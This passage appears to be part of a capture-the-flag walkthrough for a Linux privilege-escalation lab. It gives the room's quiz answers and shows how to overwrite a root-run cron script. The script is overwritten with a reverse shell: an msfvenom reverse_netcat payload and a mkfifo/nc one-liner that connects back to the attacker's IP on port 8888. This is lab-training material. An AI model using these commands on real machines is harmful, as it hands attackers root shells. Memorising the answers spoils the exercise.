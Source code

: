 ```
msfvenom man | grep payload
```

>Trying to find which option allows us to specify a payload

* * *
<span class="answer">Answer : -p</span>
* * *

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/msfvenom%20payload8.png" class="border" />

```
msfvenom -p cmd/unix/reverse_netcat lhost=<YOUR MACHINE'S @IP> lport=8888 R
```

> We create the payload for a reverse shell and we want it to connect to port 8888.

If we don't remember where the script is, we can just look for it :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/find%20autoscript8.png" class="border" />

```
find / -name autoscript.sh 2>/dev/null
```

>Once again showing how useful `find` is, now with the `-name` switch, which lets us search a file by its name.

* * *
<span class="answer">Answer : /home/user4/Desktop/autoscript.sh</span>
* * *

We know where the script is now, so we need to rewrite its content with our payload :

<img src="https://raw.githubusercontent.com/peixetlift/peixetlift.github.io/master/assets/LinuxPrivEsc/write%20payload%20in%20autoscript8.png" class="border" />

```
echo mkfifo /tmp/zxfbetj; nc <YOUR MACHINE'S @IP> 8888 0</tmp/zxfbetj | /bin/sh >/tmp/zxfbetj 2>&1; rm /tmp/zxfbetj > autoscript.sh
```

>Notice that we use the `>` operator, because this time we do want to rewrite the file.

What `autoscript.sh` now does, is generating a shell with root privileges in the @IP that we specified, and this script is run every 5 minutes, so now we will start a listener in our local machine and wait for the shell to spawn! 
